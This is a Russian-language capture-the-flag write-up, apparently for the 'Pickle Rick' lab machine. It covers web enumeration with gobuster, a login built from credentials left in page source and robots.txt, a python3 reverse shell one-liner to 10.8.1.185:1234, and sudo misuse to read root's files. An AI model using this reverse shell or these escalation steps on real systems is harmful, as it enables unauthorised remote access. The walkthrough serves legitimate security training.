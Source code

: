 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив текстовый файл **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя **R1ckRul3s**

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент **gobuster** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых файлов

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует файл **/login.php**, перейдя по которому мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя **R1ckRul3s**, а в качестве пароля - записку в файле **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды **cat**, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Запустив слушатель в терминале Linux, отправляем пейлоад в командную строку на сайте, затем получаем реверс шелл от лица пользователя **www-data**

&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;

:mag\_right: Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3) (2) (1).png>)

С помощью команды `sudo -l` мы можем узнать, какие sudo-права мы имеем как пользователь **www-data**

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

В данном случае нам доступны все команды пользователя **root** без пароля &#x20;

Пользуясь этим, мы можем просмотреть содержимое директории **/root** и вывести его в случае необходимости

Третий ингредиент как раз находится в директории **/root** в файле **3rd.txt**

Выводим содержимое файла и получаем последний флаг для данной машины&#x20;

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
